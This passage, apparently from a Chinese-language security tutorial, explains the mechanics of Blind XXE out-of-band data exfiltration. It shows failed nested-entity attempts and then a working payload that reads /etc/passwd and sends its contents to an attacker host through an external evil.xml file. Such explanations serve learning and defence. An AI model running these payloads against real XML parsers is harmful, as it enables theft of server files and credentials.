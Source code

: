 知道何为Blind XXE后，这里再分析一下原理：

**Blind XXE原理** 

带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系。 

直接在内部实体定义中引用另一个实体的方法如下，但是这种方法行不通。 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "http://127.0.0.1/?%param1">
%param2;
]>
```

于是考虑内部实体嵌套的形式： 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "<!ENTITY % param222 SYSTEM'http://127.0.0.1/?%param1;'>">
%param2;
]>
<root>

```

但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。 

![1547388859468]({{site.baseurl}}/assets/images/审计/1547388859468.png)

解决方案是：

将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

如下：

payload

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://192.168.100.1/evil.xml">
%remote;
%all;
]>
```

【evil.xml】 

```
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.100.1/?file=%file;'>">

```
